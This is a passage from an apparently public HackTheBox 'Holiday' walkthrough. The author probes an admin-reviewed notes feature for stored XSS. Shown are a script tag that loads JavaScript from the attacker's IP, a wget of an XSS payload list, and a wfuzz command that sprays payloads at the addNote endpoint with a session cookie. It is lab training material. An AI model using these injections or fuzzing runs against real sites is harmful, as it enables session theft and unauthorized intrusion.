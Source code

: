 When we click in any note we got some information

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:42:50.png)

And when we click on the Notes it shows that it takes one minute to the admin approve it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:43:19.png)

Seems interesiting, possible a XSS, so I will create it to try to come to me

```js
<script src="http://10.10.14.20/test.js"></script>
```

We add the note and wait one minute

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:44:34.png)

We see that the note get some trouble, so I'll need to make some kind of bypass to make it working properly

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:45:43.png)

We download a huge list of payloads to try it

```bash
wget https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:47:46.png)

We send a request to burp

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:54:38.png)

Get the parameters and made our wfuzz command

```sh
wfuzz -H "User-Agent: Linux" -b 'connect.sid=s%3Ac7122110-352c-11ec-8a63-376f72d63222.i3Z6TpFuIpKWpMSiip1AcpxG7w0HcNaG6RHF3iSkBP4' -z file,xss-payload-list.txt -d "uuid=8dd841ff-3f44-4f2b-9324-9a833e2c6b65&body=FUZZ" --hc 200 http://10.10.10.25:8000/agent/addNote
```

And send everything to the server, to see what triggers there

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:54:20.png)

No one trigger the alert message, interesting and no one give me the `<script>` tags, which I need to make XSS.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2009:55:44.png)

But if we look at img tag, it's being corrected renderized by the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2010:03:15.png)
